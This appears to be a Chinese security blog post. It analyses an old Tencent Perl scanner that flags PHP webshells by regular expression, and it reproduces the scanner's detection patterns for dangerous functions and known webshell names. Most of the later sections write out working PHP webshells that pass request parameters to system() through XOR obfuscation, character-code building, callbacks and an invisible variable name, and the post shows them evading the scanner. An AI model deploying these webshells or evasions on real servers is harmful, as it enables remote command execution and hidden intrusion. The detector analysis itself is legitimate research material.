


# 一场跨越十年的超时空思维碰撞 - 先知社区

一场跨越十年的超时空思维碰撞

- - -

# 0# 概述

最近反正也没啥事情干，突然看到朋友 `青山ya` 师傅审计出了腾讯开源的 xSRC 系统的逻辑漏洞，于是我就没事干，把开源的 xSRC 源码拉下来跟着审计了一波

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103203-e9e3962c-c497-1.jpg)

但在审计的过程中，我在[TSRC（腾讯安全应急响应中心）](https://security.tencent.com/)的在线平台中，看到了一个好玩的东西：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103215-f0d65f64-c497-1.png)

ScanWebshell：此工具可用于检测 php Webshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103222-f4bc099e-c497-1.png)

咦，我平时不也在研究 WebShell 的免杀吗？兴趣使然，我打算下载下来看看

# 1# 工具分析

下载下来，是一个 Perl 语言编写的程序文件，可以在 Linux 系统上直接运行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103629-880896e0-c498-1.png)

通过编辑器打开，可以看到源码，作者看起来是想实现 `ASP` + `PHP` + `JSP` 的 WebShell 的查杀，但很可惜不知道是何种原因只完成了 `PHP` 的查杀部分，主体内容如下：

```plain
#!/usr/bin/perl
#Scan WebShell for LAKE2
#Desc: A small tools that find webshell with perl, it can check ASP/PHP/JSP/ASP.Net script, enjoy hacking :-)
#Author: lakehu[TSRC]
#Date: 2013-10-30
#Version: 1.1.1

#php webshell str
@php_code_array = (
  '\beval(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bassert(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bsystem(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bpassthru(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bexec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bpcntl_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bshell_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bpopen(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bproc_open(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bpreg_replace(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bcreate_function(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\bob_start(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '\barray_map(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)',
  '`.*?`',
  '(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(\s*.*?\$.*?\)',
  '(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(?\s*[\'"].*?\.[^p][^h][^p]\w*?[\'"].*?\s*?;',
  '(phpspy|4ngel|wofeiwo|c99shell|webshell|php_nst|reDuh)',
  '\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)'
);
```

可以看到，这个脚本是腾讯安全的 `lakehu` 师傅在 2013 年完工的，今年是 2023 年  
整整十年时间，犹如弹指一挥间，没想到还有个人点开了他留下的赛博足迹

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103251-06569458-c498-1.png)

# 2# 这个脚本到底干了啥

第一次运行的时候，报了如下错误：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103303-0d8a25f0-c498-1.png)

运行的时候，会有这个报错：`/usr/bin/perl^M: bad interpreter: No such file or directory`  
这是因为不同的编码方式导致，Windows 环境下面新建的文本文档默认是 dos 格式的，dos 格式在 Linux 系统里面有些的字符是不可见的，所以执行报错，解决方法如下：

```plain
vim ./ScanWebShell.pl
:set ff        //显示文件格式 fileformat=dos
:set ff=unix   //修改格式为 unix
:wq            //保存并退出
```

刚看到这个 pl 脚本，我只认为它就识别了常见的高危函数和可调用的高危函数，但随着深入上手和查看，它的余威还是有点震撼我的，这是脚本内提取出的正则匹配式：

```plain
eval(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
assert(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
system(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
passthru(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
pcntl_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
shell_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
popen(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
proc_open(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
preg_replace(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
create_function(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
ob_start(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
array_map(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
`.*?`
(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(\s*.*?\$.*?\)
(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(?\s*[\'"].*?\.[^p][^h][^p]\w*?[\'"].*?\s*?;
(phpspy|4ngel|wofeiwo|c99shell|webshell|php_nst|reDuh)
$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)
```

首先，既然过滤了这么多高危函数，那我马上想到了我写的免杀手册的第一个实例，这里面可是一个高危函数都没有的：

```plain
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

如果不懂这个 WebShell 的原理，可以看开源项目的 12.1 部分：[https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md](https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103322-18ddfe18-c498-1.png)

没想到第一个 WebShell 就翻车了，这时候的我心理活动：咦不应该啊？  
然后我又把整个正则匹配式看了一遍，找到了关键的正则匹配式：

```plain
'\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)'
```

这个正则表达式要怎么理解呢，我们可以拆开用以下四部分来分析：

```plain
\$                         # 第一部分
[\w-_\'\\[\\]{}\.\$\*/|]+  # 第二部分
(\s|\/\*.*?\*\/)*          # 第三部分
\(.*?\)                    # 第四部分
```

-   第一部分：最开头匹配符号 `$`
-   第二部分：匹配一个或多个字符，这些字符可以是：字母数字下划线、单引号、反斜杠、方括号、花括号、点、`$`符号、星号、斜杠、竖线
-   第三部分：匹配零个或多个空白字符（\\s）或注释（/ / 形式的内容）。
-   第四部分：用非贪婪模式匹配括号内的任意字符

那现在，让我们将这些部分组合起来，可以清楚地理解整个正则表达式的匹配内容：

-   第一部分：匹配以 `$` 符号开头的单词（变量名）
-   第二部分：匹配一个或多个允许的字符，形成变量名的其余部分，比如 `$f` 或者 `$_`
-   第三部分：匹配零个或多个空白字符或注释，应该是防止中间掺杂垃圾字符干扰正则
-   第四部分：匹配括号内的任意字符，相当于不检测括号内的内容

**相当于检测到外部变量想要作为函数执行括号内的内容就拦截，那这条正则匹配式能拦截啥呢？比如：**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103337-217fbe1c-c498-1.png)

一、自定义函数混淆字符串类型：

```plain
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

二、一维数组绕过：

```plain
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

三、异或 + 变换参数绕过：

```plain
$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

等等，还有许多以 `变量(调用外部参数)` 来执行恶意命令的 WebShell 都能查杀，说明作者对参数变形和 PHP 参数调用的相关姿势烂熟于心啊哈哈

# 3# 查杀 ByPass

既然直接用变量作为函数执行不行的话，那可以曲线救国，比如：

```plain
//ASCII 编码解密后为 system 高危函数
$f =  chr(114+1).chr(120+1).chr(116-1).chr(117-1).chr(100+1).chr(108+1);
call_user_func_array($f, array($_GET['aabyss']));
```

通过这个简单的样例，采用回调函数的手法，来执行对应的命令：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103351-29d172fe-c498-1.png)

成功 ByPass：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103405-32a09b76-c498-1.png)

同样，基于这种思路，还可以用更多手法来绕过这些正则表达式

- - -

# 4# 关于课后作业

这篇文章发表后，在公众号上迅速传播，我真没想到能得到 lake2 师傅的回应，也没想到师傅居然是前腾讯安全平台部总监

**《我很好，谢谢》：[https://mp.weixin.qq.com/s/l1gt6Wf\_yZg-dHeyBmA7Dw](https://mp.weixin.qq.com/s/l1gt6Wf_yZg-dHeyBmA7Dw)**

在文中，大佬也给我留下了课后作业：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103415-3879bae6-c498-1.png)

那意味着有以下限制条件：

-   不能使用任何高危函数
-   不能使用任何回调函数
-   在满足以上两个条件的情况下，能绕过 `\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)` 这个正则表达式

这个限制条件看似简单，实则细细研究后，还是挺让人伤脑筋的

因为正常情况下，比如我将高危函数名传给变量（因为高危函数都被禁用了）：

```plain
$f = ('.$.48]' ^ ']]]@]0');  //通过异或运算，让$f = system
```

当我们要调用 `$f` 执行高危命令的时候，结构如下：

```plain
$f($_POST['aabyss']);
$f(calc);
$f(whoami);
```

观察发现，拐来拐去最终还是 `$f()` 的一个结构，而这个结构，恰恰是 `\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)` 这个正则表达式识别和匹配的结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103440-475d5e78-c498-1.png)

那我们该怎么绕过呢？这个时候我发现，正则表达式在匹配 `$f()` 的 `$f` 前头的这个变量的时候，使用的是 `[\w-_\'\\[\\]{}\.\$\*/|]+`，那我能不能使用不可见字符绕过呢？

说干就干，我写了以下 demo：

```plain
header('HTTP/1.1 404');
class Aabyss{
    public $c='';
    function __destruct(){
        $ = ('.$.48]' ^ ']]]@]0');   //通过异或运算，得到高危函数 system
    return $($this->c);
    }
}
$runrun=new Aabyss();
@$runrun->c=$_POST['zg'];
```

传参后，成功执行 `calc` 弹出计算器：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103455-50206c76-c498-1.png)

绕过正则表达式的匹配，成功 ByPass：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103509-58815a1a-c498-1.png)

背后原理：在早期 PHP 版本（版本号 < `7.1.9`）当中，不可见字符串是允许作为变量所存在的，那我可以通过十六进制编辑器，将变量改为不可见字符串即可：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103520-5ef2b0d8-c498-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206103531-65d0787c-c498-1.png)

从而根据 PHP 的语法结构，成功绕过了该正则表达式，实现了 ByPass

# 5# 总结

2013 年那个时代，正是国内网络安全行业刚刚扬帆起航的时代  
可以看到，在那个还在用着 `D盾` 和 `菜刀caidao` 的时代，对于 WebShell 的查杀还是基于正则匹配式，回想现在的 `语义分析（AST）`、`机器学习（AI）` 来对 WebShell 进行查杀，不可谓时代的车轮仍在滚滚向前

谁能想到，在十年后，在互联网的犄角旮旯里面，我还能重拾前人的经验、回忆和热枕，带着他们继续向前

十年过去了，这位 `lakehu` 师傅，你还好吗？如果不是隐退江湖，想必也已成为一方大佬了吧，向各位推动中国网络安全发展的师傅致以崇高的敬意！

后续有师傅回复我了，找到了这位 `lakehu` 师傅的后续，还真是大佬，可以看链接：[https://mp.weixin.qq.com/s/45v68JqIjjE-4b8Uq6zfxQ](https://mp.weixin.qq.com/s/45v68JqIjjE-4b8Uq6zfxQ)

这篇文章发表后，在公众号上迅速传播，我真没想到能得到 lake2 师傅的回应，也没想到师傅居然是前腾讯安全平台部总监
